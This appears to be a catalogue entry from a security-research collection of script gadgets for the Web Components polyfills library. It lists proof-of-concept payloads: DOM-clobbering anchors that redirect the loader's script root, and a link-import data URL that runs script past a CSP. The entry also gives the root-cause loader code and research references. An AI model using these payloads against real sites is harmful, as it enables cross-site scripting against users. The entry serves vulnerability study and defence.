```yaml
---
description: The Web Components polyfills are a suite of JavaScript libraries that implement [Web Components](https://developer.mozilla.org/en-US/docs/Web/API/Web_components) APIs for browsers that don't have built-in support.
github: webcomponents/polyfills
gadgets:
  Latest:
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - src-attr
      - name-attr
      - before-lib-load
    pocs:
      - description: Since the payload uses [HTML Collection](https://developer.mozilla.org/fr/docs/Web/API/HTMLCollection), it won't works on Firefox.
        code: |
          <!-- user input -->
          <a id="ShadyDOM"></a>
          <a id="ShadyDOM" name="force"></a>
          <a id="WebComponents"></a>
          <a id="WebComponents" name="root" href="[current-location]/assets/xss/"></a>

          <script src="https://unpkg.com/@webcomponents/webcomponentsjs@2.8.0/webcomponents-loader.js"></script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/webcomponents/polyfills/blob/16a0a1e87f67c2604381b904b4edd8cd112e5b04/packages/webcomponentsjs/webcomponents-loader.js#L114">https://github.com/webcomponents/polyfills/blob/16a0a1e87f67c2604381b904b4edd8cd112e5b04/packages/webcomponentsjs/webcomponents-loader.js#L114</a>

      ```javascript
      var polyfills = [];
      if (
        !(
          'attachShadow' in Element.prototype && 'getRootNode' in Element.prototype
        ) ||
        (window.ShadyDOM && window.ShadyDOM.force)
      ) {
        polyfills.push('sd');
      }
      if (!window.customElements || window.customElements.forcePolyfill) {
        polyfills.push('ce');
      }
      ```

      Source: <a target="_blank" href="https://github.com/webcomponents/polyfills/blob/16a0a1e87f67c2604381b904b4edd8cd112e5b04/packages/webcomponentsjs/webcomponents-loader.js#L190">https://github.com/webcomponents/polyfills/blob/16a0a1e87f67c2604381b904b4edd8cd112e5b04/packages/webcomponentsjs/webcomponents-loader.js#L190</a>

      ```javascript
      if (window.WebComponents.root) {
        url = window.WebComponents.root + polyfillFile;
        if (
          window.trustedTypes &&
          window.trustedTypes.isScriptURL(window.WebComponents.root)
        ) {
          url = policy.createScriptURL(url);
        }
      }
      ```
    links:
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/polyfills.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
  ≤1.3.3:
    authors:
      - twitter:slekies
      - twitter:kkotowicz
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - link-tag
      - rel-attr
      - href-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The [polyfills](https://github.com/webcomponents/polyfills) library was using `link rel="import"` to specify additional HTML to load.
        code: |
          <link rel="import" href="data:text/html,<script>alert(document.domain)</script>">

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/webcomponentsjs/1.3.3/webcomponents-lite.js"></script>
    links:
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/ajaxify.php
      - https://github.com/google/security-research-pocs/blob/master/script-gadgets/repo/csp/sd/ajaxify_exploit.php
---
```

